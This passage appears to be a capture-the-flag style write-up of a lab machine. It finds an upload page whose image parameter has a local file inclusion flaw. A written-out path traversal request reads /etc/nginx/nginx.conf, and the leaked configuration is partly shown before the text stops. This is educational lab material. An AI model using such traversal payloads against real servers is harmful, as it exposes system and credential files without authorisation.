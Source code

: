 Port open:

-   8080 http
-   22 ssh


### Inspecting the website {#inspecting-the-website}

Going to <http://10.10.11.204:8080> we can there is a webapp

{{< figure src="/ox-hugo/2023-05-05_14-47-20_screenshot.png" >}}

Going to the signup and login pages are not currently working

{{< figure src="/ox-hugo/2023-05-05_14-48-39_screenshot.png" >}}

going to `/upload` works.
it is a file upload page, lets upload an image and see what happens

{{< figure src="/ox-hugo/2023-05-05_14-51-13_screenshot.png" >}}

When you upload a image you are given back a link to view your image. it keeps the same filename as the one you uploaded.
url: `http://10.10.11.204:8080/show_image?img=default.png`

My gut was right, that was a LFI on the img varible.

{{< figure src="/ox-hugo/2023-05-05_14-55-52_screenshot.png" >}}


### LFI on the website {#lfi-on-the-website}

now with the lfi lets try and abuse it to find configuration files.

Check if the server is nginx

```text
GET http://10.10.11.204:8080/show_image?img=../../../../../../etc/nginx/nginx.conf HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 0

```

Confirmed!

```text
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
	worker_connections 768;
	# multi_accept on;
}

http {

	##
	# Basic Settings
	##

```